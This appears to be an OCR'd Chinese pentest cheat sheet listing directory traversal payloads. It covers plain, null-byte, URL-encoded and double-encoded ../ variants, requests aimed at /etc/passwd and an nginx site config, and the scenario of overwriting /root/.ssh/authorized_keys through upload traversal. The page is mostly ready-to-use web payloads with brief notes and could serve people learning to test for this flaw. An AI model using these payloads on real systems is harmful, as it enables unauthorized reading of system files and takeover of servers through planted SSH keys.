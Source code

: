 ## **目录穿越，各种触发格式**
```
../
/../
/static../
/admin/admin.php?file=..././..././..././..././/etc/nginx/sites-enabled/site.conf
/.%00.%2F
/..%5c..%5c

包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。


url编码绕过
.   =>  %2e
/   =>  %2f
% => %25  (双重URL编码)

..%2f..%2f..%2fetc/passwd
..%252f..%252f..%252fetc/passwd  
```

^
## **目录穿越利用场景**
文件上传目录穿越，穿越覆盖ssh公钥/root/.ssh/authorized_keys。
文件下载目录穿越。